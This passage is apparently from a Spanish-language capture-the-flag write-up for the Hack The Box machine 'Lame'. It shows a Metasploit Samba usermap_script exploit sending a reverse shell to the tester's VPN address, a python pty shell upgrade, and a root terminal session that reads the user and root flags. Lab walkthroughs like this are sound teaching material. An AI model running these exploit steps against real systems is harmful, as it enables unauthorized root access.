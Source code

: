 ### 8. Configuración y Ejecución del Módulo de Samba
Se configura el módulo de Samba con la IP de la máquina llamada Lame y la IP del túnel OpenVPN:
```shell
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <tu_ip_openvpn>
run
```
![[Pasted image 20240713004208.png]]

### 9. Escalada de Privilegios y Obtención de Flags
Una vez dentro del sistema, se navega para obtener las flags de usuario y root:
```shell
ls
id
```
![[Pasted image 20240713004543.png]]

Como vemos, somos usuario root. Ahora usamos el comando `which python` para ver si tiene Python y si tiene, sacamos la bash para tenerlo más interactivo:
```shell
which python 
python -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240713005137.png]]

Ahora que estamos dentro, tenemos que buscar las flags o capturar la bandera para ponerla aquí:
![[Pasted image 20240713005223.png]]

Vamos a la terminal y busquemos esas flags:
```shell
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd home
cd home
root@lame:/home# dir
dir
ftp  makis  service  user
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# dir
dir
user.txt
root@lame:/home/makis#

 cat user.txt
cat user.txt
f3560344ad8f0d3d08180264633c0029
root@lame:/home/makis# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
a7a1eefa8d55d5acc99d6f4ee7a2517b
root@lame:/root# 
```
![[Pasted image 20240713005522.png]]